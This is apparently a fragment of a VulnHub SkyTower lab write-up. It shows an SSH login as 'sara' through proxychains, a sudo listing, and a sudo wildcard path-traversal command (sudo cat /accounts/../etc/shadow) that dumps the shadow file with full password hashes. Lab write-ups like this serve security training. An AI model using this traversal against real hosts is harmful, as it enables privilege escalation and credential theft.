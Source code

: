 ```


```

##spray the password of sara in ssh successed
```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -oHostKeyAlgorithms=+ssh-rsa sara@192.168.56.101 -t "bash --noprofile --norc"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
sara@192.168.56.101's password: 
bash-4.2$ whoami
sara
bash-4.2$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
bash-4.2$ 


```
#It took me long time to see the rtechnique, the permistion it says
 io can go in /accounts/ as root and any other point so i need to pass first into /accounts/ as root and i can go * [ALL] i want so, i listed in root using /accounts/../root >> i go back one step and list the root directory contesnt and i found the flag
#WTF

## Privillage escalation
How can i prove can i cat /etc/shadow?
```
bash-4.2$ sudo cat /accounts/../etc/shadow
root:$6$rKYhh57q$AVs1wNVSbE5K.IU1Wp9l7Ndg3iPlB7yczctQD6OL9fBZir2ppGDA6v0Vx17xjg.b3zu6mkAVpEN2BuG3wvS2l/:16241:0:99999:7:::
daemon:*:16241:0:99999:7:::
bin:*:16241:0:99999:7:::
sys:*:16241:0:99999:7:::
sync:*:16241:0:99999:7:::
games:*:16241:0:99999:7:::
man:*:16241:0:99999:7:::
lp:*:16241:0:99999:7:::
mail:*:16241:0:99999:7:::
news:*:16241:0:99999:7:::
uucp:*:16241:0:99999:7:::
proxy:*:16241:0:99999:7:::
www-data:*:16241:0:99999:7:::
backup:*:16241:0:99999:7:::
list:*:16241:0:99999:7:::
irc:*:16241:0:99999:7:::
gnats:*:16241:0:99999:7:::
nobody:*:16241:0:99999:7:::
libuuid:!:16241:0:99999:7:::
sshd:*:16241:0:99999:7:::
mysql:!:16241:0:99999:7:::
john:$6$a39powbs$ditVKZ1waa6vJEh3BG1d5jLv/uADKcl.r1kcA.XKyhNfJoiDhSdwmSZel3V5cZ/S6ec3wd8rdNA2dOznTXhl0/:16198:0:99999:7:::
sara:$6$2PvpHNG0$hbaMRd5fZhWMDHyyhGHINSy.qBHnvP4QW1k9RSwv.pQM6SoZey53C7S7aF6263ae6qx5TwVA6sahf5tebUqvY1:16198:0:99999:7:::
```